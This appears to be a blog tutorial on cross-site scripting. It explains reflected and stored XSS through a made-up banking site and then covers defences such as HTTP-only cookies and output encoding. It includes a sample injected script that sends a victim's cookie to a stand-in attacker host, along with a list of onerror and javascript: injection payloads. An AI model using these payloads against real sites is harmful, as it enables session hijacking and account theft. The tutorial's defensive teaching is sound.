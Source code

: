 ```yaml
---
title: Tackle Cross-Site Scripting Vulnerabilities in Frontend Development
date: 2021-05-20
tags: web development, security, networking
index_img: /images/thumbnail/xss.jpg
---
```

### How does Cross-Site Scripting work?
Cross-Site Scripting(XSS) is one of the most common security attacks on the client side of the application. XSS attacks is a type of code injection, where the malicious script or a segment of code is injected in the request to the server, and the server response which contains that maliciosus code will be run by victim's browser. Depending on what the injected code does, XSS attacks can cause a wide variety of damages to the victims, including stealing sensentitive user info from cookie, redirecting users to the malicious site built by the attackers, and even internally crashing user's machine by overflowing the memory, and so on.

Suppose you are a user of a financial site A(let's call it dummy.com), in which you usually manage your financial products and trade in stock market. After you logged in dummy.com, you will be directed to the url: `www.dummy.com/index.php?username=<user>` where the query parameter value `user` will be just the placeholder for your actual username, and this url request returns a user landing page with a page title of "Welcome back user!". What happens here, is that when you have filled in your user credentials in the log-in page, the application sends a GET request that contains your username as a query parameter to the server, and retrieve your account info from the database. The server then sends a html template(the user landing page) back to your browser, which parses your username out of the url for displaying the page title. 

Imagine there is a hacker who knows dummy.com is exposed with XSS security vulnerabilities, and wants to get your session id so the hacker can access your account as a logged-in user(i.e., pretend to be you). The session id is usually stored in the cookie with the server response, thus in order to get that session id, the hacker needs to make your browser execute a segment of code that extracts the session id from your cookie, and sends it to the hacker's own server. The first step for hacker is to think of a way if injecting his code into your request to dummy.com. One of the most common approches of doing that is to send you an anonymous email which contains a malicious url, and triggers you to click on that url. The url will be something like `www.dummy.com/index.php?username=<script>getSessonidFromCookie()</script>`. When you click on the url, the html template will try to get your username from the query parameter in the url, which is `<script>getSessionidFromCookie()</script>` in this case. Since the browser has no mechanism to detect whether the script tag in the DOM tree could be trusted or not, the injected script will be executed regardless. The injected script could be as the following:
```javascript
var session_id = documnet.cookie;
fetch('www.hackersite.com', { session: session_id }).then(() => { return; });
```
What the code does is getting your cookie that contains your session id, and send to hacker's server. Now the hacker has your session id, and can store the id in hackers' own browser while making request to dummy.com. The server of dummy.com sees the session id in hacker's cookie, thus recognizes the hacker as you, and gives the hacker access to your account.

The scenario above is just one type of XSS attacks, which is known as `reflected XSS`. Reflected XSS occurs when the injected code travels with the user request, all the way to the server-side, and is reflected in the server response and finally executed by user's browser. This type of attacks requires certain user action to trigger the code injection, such as clicking on a designated link to inject the malicious script into the url or the request body. There is also `stored XSS` where the script permanantly resides on the server-side. Whenever the infected server receives a user request that contains some user info, the script will act as a man-in-the-middle, intercept the sensentive info that the server fetched from the databse, and send to attack's appointed site. 

### What are the solutions?
##### HTTP-only cookie
HTTP-only is an attribute that can be specified for the cookie. The cookie value with HTTP-only attribute can not be accessed by any script anymore, thus the hacker will not be able to use script or document API to get information from the cookie and send to hacker's own computer. Setting HTTP-only cookie doesn't eliminate XSS attacks from happening, but effectively mitigates the sensitive info from being stolen from the source. The following code sets HTTP-only attribute to cookie using node.js:
```javascript 
cosnt cp = require('cookie-parser');
app.use(cp());

app.post('/example-route', (req, res) => {
  res.cookie('session_id', '123456', {
    httpOnly: true
  });
  res.send('<div>Cookie has been set with HTTP-only!</div>');
})
```

##### Encoding on the output 
To prevent XSS attacks in our applcations, we should have the mindset that each DOM documnet is a HTML template that has slots into which untrusted data can be inserted. When the browser renders a DOM tree, it has no idea whether each data comes from a trusted data source. Therefore, it is important to prevent the browser switching to execution context while rendering HTML template. One way to achieve that is to apply HTML entity encoding to the HTML element content that contains any dynamic data attribute or the data that may comes from a untrusted source. The following characters are encoded with HTML entity and can be used in HTML element content:
```text
 & --> &amp;
 < --> &lt;
 > --> &gt;
 " --> &quot;
 ' --> &#x27;
```

Other than the HTML element content, the HTML attribute values can also be the place to inject javascript code using `javascript pseudo protcol`. For example:
```html
<div>
  <a href="javascript:injectCode()"></a>
  <div onclick="javascript:injectCode()"></div>
  <div onerror="javascript:injectCode()"></div>
  <img src onerror="alert('XSS')"/>
</div>
```
Therefore, the values should also be encoded before being put into HTML attributes. 


